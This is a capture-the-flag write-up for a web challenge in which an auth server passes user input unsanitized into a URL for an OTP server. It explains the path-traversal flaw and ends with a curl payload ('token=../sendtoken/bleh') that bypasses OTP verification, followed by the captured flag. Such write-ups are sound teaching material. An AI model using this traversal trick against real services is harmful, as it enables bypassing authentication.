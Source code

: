 # Secure Flag Distribution Service

> We've recently discovered that APOCALYPSE is running an illegal [flag distribution service](http://aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:50401/) to share flags among all their agents. Can you infiltrate their system and take a look? Seems like they're using some OTP system to ensure that only their members can login.

The challenge consists of two services, `auth-server` and `otp-server`. However, we can only interact with `auth-server`

Here's an abbreviated version of each.

`auth-server`

```python

@app.post('/request')
async def request_OTP(email: str = Form(...)):
    r = requests.get(f'http://{OTP_SERVER}/sendtoken/{email}')
    result = r.json()['status']

    if result:
        return {'status': True}
    return return {'status': False}

@app.post('/verify')
async def authenticate(token: str = Form(...)):
    r = requests.get(f'http://{OTP_SERVER}/verify/{token}')
    result = r.json()['status']
    if result:
        return {'status': True, message: getenv('FLAG')}
    return return {'status': False}
```

`otp-server`

```python
@app.get('/sendtoken/{email}')
async def send_OTP(email: str):
    if query_email(email):
        if not send_otp(generate_token(email), email):
            return { 'status': False }
    return { 'status': True }

@app.get('/verify/{token}')
async def verify_OTP(token: str):
    if not is_token_valid(token):
        return { 'status': False }
    invalidate_token(token)
    return { 'status': True }
```

This challenge is quite difficult to analyze as there are so many parts and it's not obvious what the vulnerable part is. Let's look at it part by part.

## `send_OTP`

```python
async def send_OTP(email: str):
    if query_email(email):
        if not send_otp(generate_token(email), email):
            return { 'status': False }
    return { 'status': True }
```

There's a lot of useless red herrings here. This function doesn't actually send any emails, nor does it do any validation on the email (at least not as far as I can tell). We can just treat it as a route that always returns `{ 'status': True }`. This will be useful later.

## `verify_OTP`

```python
async def verify_OTP(token: str):
    if not is_token_valid(token):
        return { 'status': False }
    invalidate_token(token)
    return { 'status': True }
```

Again, this function doesn't actually do anything. Maybe it does, but until we can guess a valid OTP, it will always return `{ 'status': False }`. If you've analyzed up to here, you'll probably think this challenge is some kind of web + crypto thingy where OTP is an JWT or flask token. At least that's what I thought during the CTF.

## `request_OTP`

```python
async def request_OTP(email: str = Form(...)):
    r = requests.get(f'http://{OTP_SERVER}/sendtoken/{email}')
    result = r.json()['status']

    if result:
        return {'status': True}
    return return {'status': False}
```

This code reads `email` from the post data and sends it to the OTP server's `send_OTP` function. The vulnerable code is here, but it's so innocent it's easy to miss. 

```python
r = requests.get(f'http://{OTP_SERVER}/sendtoken/{email}')
```

Python's f-strings are really useful for concatenating stuff together. However, when dealing with URLs and paths, we need to be extra careful to deal with [path traversal](https://owasp.org/www-community/attacks/Path_Traversal) attacks. For example, if `email=../`, the effective request URL would be `f'http://{OTP_SERVER}/'` as `..` instructs the web server to load a resource from the parent directory. 

Using this attack, we can actually control the value of `r` by pointing the request URL to something we want. To get the flag, we want something that returns `{'status': True}`, like `send_OTP`. 

Thus the final payload:

```
curl -X POST -d "token=../sendtoken/bleh" http://aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:50401/verify
```

Flag:

```
Cyberthon{h3y_5h4r1ng_fl4g5_15_4g41n5t_th3_rul35}
```



This challenge is so easy to exploit yet the exploit is so easy to miss. It's not surprising nobody solved it during the CTF.

